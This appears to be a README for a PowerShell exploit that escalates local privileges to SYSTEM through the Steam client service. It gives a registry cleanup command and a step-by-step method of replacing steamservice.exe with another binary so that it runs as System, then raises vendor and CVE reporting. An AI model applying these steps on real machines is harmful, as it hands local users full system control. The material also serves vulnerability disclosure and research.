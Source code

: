 # steam_EoP.ps1
Command execution as NT_Authority\System

Works **without** admin privileges

Original credits: https://twitter.com/enigma0x3/status/1159103239729471488

For complete cleanup, at the end:
`regln-x64.exe -d HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\Valve\Steam\Apps\PrivEsc`

You can download from here:
https://github.com/tenox7/regln/releases


# *Additional random info*
There is more blatant violation:
1. Log on as non-admin on a box with steam
2. Do not start steam or any game
3. `cat %system32%\calc.exe > %programfiles%\steam\bin\steamservice.exe`
4. Reboot
5. Log on, start steam
6. BAM! Now you have calc.exe (attempted to) run as System with highest local privileges

Have you reported this to the vendor or whatever channels are required to get a CVE?

From 2015: https://nvd.nist.gov/vuln/detail/CVE-2015-7985 
